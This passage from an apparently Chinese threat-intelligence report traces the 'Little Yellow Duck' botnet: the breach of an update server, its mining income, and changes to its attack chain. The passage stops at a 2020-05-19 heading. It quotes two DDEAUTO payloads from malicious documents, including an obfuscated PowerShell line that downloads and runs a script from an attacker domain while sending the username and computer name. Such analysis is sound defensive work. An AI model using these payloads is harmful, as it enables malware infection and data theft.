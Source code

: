 注册时间段大概是北京时间12点-22点，来自于三个不用的域名供应商。

我们监测到的远程脚本的更新时间范围为10点-20点，这两点表明了攻击者的活动时间范围。

**12月14日 14:15分：**

攻击者利用代理 `84.39.112.58`（📍瑞士）远程登录到升级服务器`103.56.77.23`

备份并修改`ServerConfig.xml`文件，登录SQL数据库后插入其准备好的恶意下载链接

随后于当天约18:00删除

借此，短短不到4个小时的时间内，多达数十万台PC受到感染。

>    按照当时的Meno币价格每10万台僵尸主机，预计每月会为攻击者带来近千美元的收益



值得注意的是，此次攻击显然不是有备而来。

在成功入侵驱动人生升级服务器后，攻击者在受害者内网潜伏了近一个月的时间。

而后才注册相关域名，为“攻击测试”做准备，且在攻击生效后立即恢复了服务器相关设置。

以上行为似乎表露了此次攻击并非有备而来，攻击者当时并未准备好此次大规模蠕虫攻击。

也许是在这次“测试攻击”中，获取了不菲的收益：

攻击者在2018年12月19日，更新恶意程序：新增powershell后门，以做权限维持，及方便后续更新。

此后“小黄鸭”变得一发不可收拾，其攻击活动在本报告截止（2020-06-13）时仍十分活跃，期间已经历了数百次的更新升级（国内外已有多达数十篇与其相关的报告……）



以下是我们近期监测到的“小黄鸭”攻击链部分变动更新状况：

### 近期变动

**2020-04-27:**

​	邮件中包含的RTF文档更新了DDE链接，DDE加载对象由远程文件变为本地文件，这帮助其成功规避掉部分沙箱	检测规则。

​	DDE链接对比如下：

```powershell
 Opening file: readme.doc
 DDE Links:
 DDEAUTO      "     C:\\Programs\\Microsoft\\Office    \\ 12    \\ MSWord\\..\\..\\..\\..\\..\\Windows\\system32\\cmd.exe /c      powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%wxJadS9Xyg.sct').Exec(0)&"      "Microsoft Office Remote  Database"
 
 Opening file: urgent.doc
 DDE Links:
 DDEAUTO      "     C:\\Programs\\Microsoft\\Office    \\ 12    \\ MSWord\\..\\..\\..\\..\\..\\Windows\\system32\\cmd.exe /c      powershell IE`x(Ne`w-Obj`ect Net.WebC`lient).DownLoadString('http://t.awcna.com/mail.jsp?dde*%username%*%computername%')&"      "Microsoft Office Remote  Database"
```



**2020-05-19 :**
